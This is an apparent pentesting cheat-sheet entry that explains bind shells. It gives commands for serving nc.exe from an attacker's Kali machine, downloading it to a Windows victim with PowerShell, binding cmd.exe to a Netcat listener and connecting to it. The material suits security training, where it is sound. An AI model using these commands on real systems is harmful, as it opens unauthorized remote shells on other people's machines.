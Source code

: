 # Bind Shells

## Explanation

- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

- A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

![bind-shell](../../../Media/Shells/bind-shells.png)

## Technics

### Preparation on the kali machine

1. Download netcat.exe here : <https://github.com/int0x33/nc.exe/>

2. Start simple python http server :

```text
python3 -m http.server 80
```

### Preparation on the victim machine (Windows)

3. Download netcat.exe file with powershell :

```text
Invoke-WebRequest -Uri "http://<kali-ip>/nc.exe" -OutFile "C:\Users\Administrator\Downloads"
```

4. Execute listener on victime machine :

```text
nc.exe -nvlp 1234 -e cmd.exe
```

### Run bind shell

On the kali machine, run nc connect :

```text
nc -nv <victim-ip> 1234
```

